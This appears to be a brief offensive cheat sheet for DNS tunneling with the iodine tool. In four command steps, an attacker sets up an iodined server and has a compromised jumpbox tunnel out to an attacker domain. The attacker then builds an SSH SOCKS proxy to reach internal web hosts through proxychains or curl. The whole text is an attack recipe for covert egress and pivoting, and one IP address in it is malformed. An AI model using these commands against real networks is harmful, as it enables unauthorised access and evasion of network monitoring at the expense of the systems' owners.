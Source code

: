 # DNS Tunneling (TCP over DNS)

## Tool: Iodine(d)

#### 1) Attacker: sudo iodined -f -c -P PASSWORD 10.1.1.1/24

#### 2) Jumpbox: sudo iodine -P PASSWORD att.tunnel.com

#### 3) Attacker: ssh USER@101.1.2 -4 -f -N -D 1080

#### 4) Attacker: proxychains curl http://192.168.0.100/test.php OR curl --socks5 127.0.0.1:1080 http://192.168.0.100/test.php

